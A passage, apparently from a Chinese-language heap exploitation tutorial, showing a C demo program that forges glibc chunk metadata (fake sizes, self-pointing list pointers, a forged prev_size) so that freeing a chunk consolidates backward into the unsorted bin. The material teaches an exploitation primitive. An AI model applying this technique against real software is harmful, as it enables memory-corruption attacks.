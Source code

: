 

#### 演示程序1

合并放入unsorted bin

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
	long long int *s0 = (long long int *)malloc(0x200);
	long long int *s1 = (long long int *)malloc(0x18);
	long long int *s2 = (long long int *)malloc(0xf0);
	long long int *s3 = (long long int *)malloc(0x20);
	s0[0] = 0;
	s0[1] = 0x81;
	s0[2] = (long long int)s0;
	s0[3] = (long long int)s0;
	s0[16] = 0x80;
	s1[2] = 0x220;
	s2[-1] = 0x100;
	free(s2);
	return 0;
}
```



free(s2)前各个堆上的伪造情况
